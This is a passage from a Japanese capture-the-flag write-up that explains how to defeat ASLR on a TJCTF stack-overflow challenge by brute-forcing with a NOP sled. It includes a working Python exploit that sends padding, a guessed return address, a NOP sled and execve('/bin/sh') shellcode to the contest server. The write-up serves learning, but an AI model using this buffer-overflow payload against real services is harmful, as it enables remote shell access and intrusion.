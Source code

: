 そしてこれをそのままリモートに。
動かない．．．
考えられる理由は1つしかない。
ASLRが有効．．．
高校生の大会じゃないのかよ．．．
難しすぎだろ．．．

NOP sledを使ったbruteforceをやるしかない。
記事では知っていたけど、まだ実装はしたことない。

まずはASLRを有効にしてスタックのアドレスの範囲の当たりを付ける。
先ほど作った`./test_sledshop`を何度か実行してアドレスを吐かせる。
どうやら`0xff800000`～`0xffffffff`の中のようだ。



```
$ sudo sysctl -w kernel.randomize_va_space=2
kernel.randomize_va_space = 2
$
```

ん．．．ということは8388607の範囲。
広すぎるだろ．．．
1000 sledさせても8000回...

いや、きっと10000 sledぐらい行けるに違いない。

と思ったのだけどgetsがsegmentation fault起こすので最大でも1000ぐらいしか行けない。

時間かけるかと考え直して1000スレッドさせるsolve003.pyと1000ずつincrementするattack.shを書いた。

```python:solve003.py
import socket
import telnetlib
import sys
import struct

def read_until(sock, s):
    line = b""
    while line.find(s) < 0:
        line += sock.recv(1)


host = "p1.tjctf.org"
port = 8010

target_addr = int(sys.argv[1])
print("%x" % (target_addr))

target_addr = struct.pack("<L", target_addr)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
print(host)
print(port)
sock.connect((host, port))

read_until(sock, b"Which product would you like?\n")

shellcode_sh = b"\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xb8\x0b\x00\x00\x00\xcd\x80"

sock.sendall(b"A" * 80 + target_addr + b"\x90" * 1000 + shellcode_sh + b"C" * 10 + b"\n")

t = telnetlib.Telnet()
t.sock = sock
t.interact()
```